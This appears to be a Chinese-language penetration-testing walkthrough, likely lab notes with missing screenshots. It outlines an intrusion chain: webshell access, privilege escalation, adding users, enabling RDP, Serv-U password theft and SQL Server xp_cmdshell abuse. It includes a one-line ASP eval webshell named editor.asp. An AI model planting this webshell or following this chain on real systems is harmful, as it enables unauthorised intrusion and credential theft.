

1. 查看密码

2. 获取webshell

3. 执行cmd

结果

拒绝访问
4. 上传cmd

6. 执行命令

7. 提权工具对比

8. 查看权限

9. 添加用户

10. 查看添加结果

添加失败
12. 上传pr利用pr提权

13.  添加成功

14. 查看端口开放情况

3389没有开启
15. 上传3389开启程序

16. 检查端口是否开放

17. 网站和物理机不通

配置流量转发
18. 肉鸡配置

19. 物理机配置

20. 读取原有密码

21. 读取用户密码

22. serv-u

23. 蚁剑连接
制作木马 editor.asp
```
<%eval request("chopper")%>
```

24. 下载servu 配置文件 读取配置文件

25. 登录servu

26. 检查

27. mysql
28. sqlserver 连接数据库

29.xpshell

30. 开启xpshell

31. xpshell

32. 查询当前用户

33. 创建 OLE 对象实例 ,此功能默认是关闭的, 需要开启

34. 验证

35. 沙盒

36. 沙盒运行


		